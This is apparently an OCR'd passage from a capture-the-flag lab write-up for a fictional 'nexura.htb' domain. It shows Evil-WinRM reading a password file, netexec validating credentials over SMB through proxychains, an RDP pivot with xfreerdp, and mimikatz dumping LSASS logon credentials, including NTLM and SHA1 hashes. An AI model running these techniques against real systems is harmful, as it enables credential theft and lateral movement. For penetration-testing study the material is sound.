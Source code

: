 ```
*Evil-WinRM* PS C:\Users\hwilliam\Documents> type C://Users//hwilliam//Desktop//Employee-Passwords_OLD.txt

Group/Title	Username	Password	Two Factor Key	TOTP Config	TOTP Start Time	TOTP Time Step	TOTP Length	URL	AutoType	Created Time	Password Modified Time	Last Access Time	Password Expiry Date	Password Expiry Interval	Record Modified Time	Password Policy	Password Policy Name	History	Run Command	DCA	Shift+DCA	e-mail	Protected	Symbols	Keyboard Shortcut	Notes

DMZ01.Betty Jayde	jbetty	xiao-nicer-wheels5								2025/04/29 10:02:36			00000		-1	-1		N			""
Domain Users.David Brittni	bdavid	caram****************								2025/04/29 10:00:45		2025/04/29 10:02:26			00000		-1	-1		N			""
Domain Users.Tom Sandy	stom	fails-nibble-disturb4								2025/04/29 10:01:32			2025/04/29 10:02:24			00000		-1	-1		N			""
Domain Users.William Hallam	hwilliam	warned-wobble-occur8								2025/04/29 10:01:50	2025/04/29 10:02:25			00000		-1	-1		N			""
```

```
┌──(nabla㉿kali)-[~]
└─$ sudo proxychains -q netexec smb 172.16.119.11 -u bdavid -p 'caram****************'

[SNIP]

SMB         172.16.119.11   445    DC01             [+] nexura.htb\bdavid:caram**************** 
```

```yaml
credentials:
    username: nexura.htb\bdavid
    password: 'caram****************'
    host: 172.16.119.7 (JUMP01)
    port: 3389 (RDP)
```

```
┌──(nabla㉿kali)-[~]
└─$ proxychains -q xfreerdp /v:172.16.119.7 /u:bdavid /p:'caram****************' /dynamic-resolution /drive:shared,~/shared +clipboard /cert-ignore
```

### Extract Credentials (from LSASS Process Memory Dump) - Locally

```
PS C:\Users\bdavid\Desktop> ./mimikatz.exe "token::elevate" "sekurlsa::logonpasswords" "exit"

[SNIP]

Authentication Id : 0 ; 265165 (00000000:00040bcd)
Session           : RemoteInteractive from 2
User Name         : stom
Domain            : NEXURA
Logon Server      : DC01
Logon Time        : 7/10/2025 10:28:09 AM
SID               : S-1-5-21-1333759777-277832620-2286231135-1106
        msv :
         [00000003] Primary
         * Username : stom
         * Domain   : NEXURA
         * NTLM     : 21ea958524cfd9a7791737f8d2f764fa
         * SHA1     : f2fc2263e4d7cff0fbb19ef485891774f0ad6031
         * DPAPI    : 06e85cb199e902a0145ff04963e7dd72
        tspkg :
        wdigest :
         * Username : stom
```